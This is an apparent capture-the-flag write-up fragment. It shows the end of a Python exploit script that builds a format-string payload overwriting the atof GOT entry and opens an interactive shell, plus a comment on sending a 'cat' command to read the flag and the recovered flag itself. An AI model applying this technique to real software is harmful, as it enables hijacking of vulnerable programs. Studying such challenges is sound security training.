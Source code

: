 ```python wwtw_exp.py
fmt2 = byte2 - fmt1 - 28
payload = pass_xy
payload += "A"
payload += p32(atof_got)
payload += p32(atof_got+1)
payload += "%"+str(fmt1)+"c"+"%20$hhn"
payload += "%"+str(fmt2)+"c%21$hn"
t.sendline(payload)
s = t.recvuntil("Coordinates: ")
print s

t.interactive()
# send cat /home/wwtw/flag;,123 to get flag

```

Flag: `Would you like a Jelly Baby? !@()*ASF)9UW$askjal`